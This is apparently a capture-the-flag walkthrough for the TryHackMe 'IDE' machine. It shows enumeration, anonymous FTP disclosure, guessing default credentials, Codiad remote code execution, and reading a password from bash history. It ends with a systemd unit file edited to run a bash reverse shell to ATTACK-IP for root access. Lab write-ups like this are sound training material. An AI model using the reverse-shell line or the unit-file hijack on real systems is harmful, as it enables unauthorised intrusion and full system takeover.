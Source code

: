 # Try Hack Me - IDE

**Categories:** Enumeration, public exploit, privilege escalation, ftp  
**Difficulty:** Easy  

Commands used in this guide use the exported variable $IP (`export IP=10.10.5.51`) in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the machine, we perform a full TCP port scan with nmap (`sudo nmap $IP -p-`) followed by a version enumeration scan on the 4 discovered ports (21, 22, 80 and 62337) :

```console
┌──(kali㉿kali)-[~]
└─$ sudo nmap $IP -p21,22,80,62337 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 12:31 EDT
Nmap scan report for 10.10.5.51
Host is up (0.100s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 
```

Google / searchsploit show no relevant vulnerabilities for the discovered versions. Navigating to the application on 80 shows an apache2 default page, and navigating to the application on 62337 shows a login page for [Codiad, an in-browser cloud IDE that is no longer actively supported](http://codiad.com/). The page title shows that the application is running Codiad 2.8.4, and a searchsploit search for this version reveals a number of authenticated RCE vulnerabilities.

## 2. Infomation disclosure - ftp

The ftp instance on 21 allows anonymous login, and includes a "hidden" directory `...` with a file `-` :

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18 06:11 -
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
226 Directory send OK.
```

Downloading the file with `get -` reveals a note from drac to john regarding a password reset :

```console
┌──(kali㉿kali)-[~/Documents/tthm/ide]
└─$ cat ./-
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

So we have 2 possible usernames - drac and john - and it is likely that john's "default" password is guessable or brute-forceable.  This is enough for the authenticated RCE vulnerability discovered during the enumeration phase

## 3. Codiad - RCE

A google search for Codiad default credentials doesn't give us much, but trying a set of possible default passwords (admin, root, toor, password, etc.) eventually gives us a session as the john user. Once authenticated, we can return to the RCE vulnerabilities discovered during the enumeration phase. 

I ultimately decided to write [my own exploit script](./codiad_exploit.py) targeting the project "Preview" functionality that allows for the execution of arbitrary PHP files by navigating to a .php project file at `/workspace/PROJECT-NAME/FILE-NAME`. To use the script, you should configure the USER, PASS, IP, PORT and HOST variables before starting a listener on your chosen port. After running the script (`python3 ./codiad_exploit.py`), a shell session is created as the www-data user : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/ide]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.5.51] 44640
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4. Privesc, www-data -> drac - bash history

Running `cat /etc/passwd` shows that there is a single non-system user drac on the host. Navigating to drac's home directory, we see that their bash_history is readable and not empty :

```console
$ cd /home/drac
$ ls -la
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac   49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11 12:11 .bash_history
...snip...
-r-------- 1 drac drac   33 Jun 18 06:32 user.txt
```

Catting the history reveals a password for a MySql service (this service is no longer active on the host) : 

```console
$ cat .bash_history
mysql -u drac -p PASSWORD
```

The same password can be used to switch to the drac user. The user flag is at `/home/drac/user.txt`. You can also start an SSH session as the drac user for a fully functional shell.


## 5. Privesc, drac -> root - writable systemd unit files

Running `sudo -l` as the drac user shows that they are able to restart the vsftpd service (the service running the FTP server we saw in step 2) as root :

```consoleb
drac@ide:~$ sudo -l
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

We can run `systemctl status vsftpd` for more information on the service, including the path of the unit file that defines how systemd should configure and manage the service : 

```console
drac@ide:~$ systemctl status vsftpd
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Mon 2021-10-18 17:12:52 UTC; 24min ago
  Process: 817 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 824 (vsftpd)
    Tasks: 1 (limit: 1103)
   CGroup: /system.slice/vsftpd.service
           └─824 /usr/sbin/vsftpd /etc/vsftpd.conf
```

This `/lib/systemd/system` directory is the standard location for unit files installed by applications (but in a CTF, it always helps to check!). Checking the permissions on the `vsftpd.service` unit file shows that it is writeable by users belonging to the "drac" group :

```console
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service 
-rw-rw-r-- 1 root drac 248 Aug  4 07:24 /lib/systemd/system/vsftpd.service
```

Understanding why this results in a vulnerability requires understanding the [basics of systemd unit files](https://www.digitalocean.com/community/tutorials/understanding-systemd-units-and-unit-files). A unit file configures the associated service through a series of KEY=VALUE lines, defining the scripts, binaries and configuration steps to be run when the service is stopped, started, restarted, etc. Catting the discovered `vsftpd.service` file, we see how it defines the actions to be taken on startup wth the "ExecStart" key :

```console
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
...snip...
```

But as we've already seen this file is writable by members of the "drac" group, meaning we can change the value of the ExecStart key to execute an arbitrary script for privesc - chmoding `/etc/shadow`, copying a bash SUID to `/tmp`, etc. In this case, we'll go for a reverse shell, changing the ExecStart key as follows :

```console
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACK-IP/12321 0>&1'
```

We then start a listener on the attack machine and run `sudo /usr/sbin/service vsftpd restart` (you'll be asked to run `systemctl daemon-reload` to load the modified unit file - do this, then repeat the previous `sudo /usr/...` command) - this results in systemd accessing our modified `vsftpd.service` unit file and running the new ExecStart command as root, resulting in a reverse root shell on our attack machine :

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 12321
listening on [any] 12321 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.5.51] 54972
bash: cannot set terminal process group (2424): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.
